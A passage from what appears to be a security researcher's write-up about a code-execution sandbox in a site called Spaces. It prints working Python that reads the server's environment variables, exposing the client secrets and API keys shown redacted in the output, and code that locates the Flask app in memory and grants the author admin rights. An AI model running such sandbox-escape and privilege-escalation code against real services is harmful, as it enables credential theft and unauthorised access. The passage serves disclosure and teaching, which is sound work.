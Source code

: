 ```python
    sys.stdout = old_stdout
```

*(note that both code blocks from above have had a bit of logic removed (mainly to do with error handling and things like that))*

Sure enough, it was just running the code directly within Spaces’ Python process. I decided to see if this was exploitable by writing a bit of code to see if I could dump Spaces’ env vars:

```python
def main():
    os_mod = sys.modules['os']
    env = os_mod.environ
    print(env)
main()
```

```python
environ({'GITHUB_CALLBACK_URL': '[redacted]', 'GITHUB_CLIENT_SECRET': '[redacted]', 'DATABASE_URL': '[redacted]', 'GROQ_API_KEY': 'gsk_[redacted]', 'GITHUB_CLIENT_ID': 'Ov23liPtaMsNRLw66vxr', 'SLACK_CLIENT_SECRET': '[redacted]', 'SLACK_CLIENT_ID': '2210535565.8465855857699'})
```

Bingo.

This on its own was pretty interesting - I had access to the GitHub and Slack client secrets and the Groq API key. However, the database URL was an internal one that didn’t accept connections from the wider internet, so I decided to see if I could try and get admin access to the site so I could look at things like club data. This was a bit more complex than just dumping the environment variables, but I was able to make it work:

```python
app_obj = None
# Importing Flask wasn't allowed by the import checker,
# and sys.modules["flask"] didn't work either, so we just scan the
# loaded modules to find the Flask class
for module in sys.modules.values():
    if hasattr(module, 'app'):
        candidate = module.app
        if type(candidate).__name__ == 'Flask':
            app_obj = candidate
            break

# `admin_utils` is an internal module that deals with admin stuff (who could've guessed :P)
admin_utils = sys.modules['admin_utils']
with app_obj.app_context():
    admin_utils.add_admin("sec")
    
# We need this to be there so we don't get errors
def main():
    print("Woah?")
main()
```

I ran the code, reloaded the page, and sure enough, I had admin access:
